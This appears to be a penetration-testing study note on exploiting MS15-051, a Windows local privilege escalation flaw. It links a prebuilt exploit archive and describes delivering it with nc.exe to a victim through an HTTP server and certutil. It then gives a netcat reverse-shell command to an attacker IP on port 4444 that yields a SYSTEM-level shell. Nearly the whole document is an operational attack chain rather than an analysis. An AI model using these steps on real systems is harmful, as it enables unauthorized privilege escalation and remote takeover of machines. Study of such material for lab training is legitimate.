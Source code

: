 # Vunerability description
This security update resolves one publicly disclosed vulnerability and one privately reported vulnerability in the Tracing Feature for Services.  
The vulnerabilities could allow elevation of privilege if an attacker runs a specially crafted application.  
An attacker must have valid logon credentials and be able to log on locally to exploit this vulnerability.  
The vulnerability could not be exploited remotely or by anonymous users.
# Tested payload
https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

# Steps to prepare payload
1. Download the zip file -> Extract it to a folder
2. Use the exe file that maches the System Architecture of the victim's machine.

# Steps to exploit
1. Create a simple HTTP file server to host it (see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
2. Also copy nc.exe to this transfer folder
2. From victim's machine, get the nc.exe file and ms*.exe file (using certutil -> see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
4. Run the ms15.exe file
Assumptions: Attack machine: 10.10.16.18 / already run nc -nvlp 4444  
From Victim's machine: ms15.exe "nc.exe 10.10.16.18 4444 -e cmd.exe"
From Attack machine - in the nc4444 screen -> will see connection with system privilege. 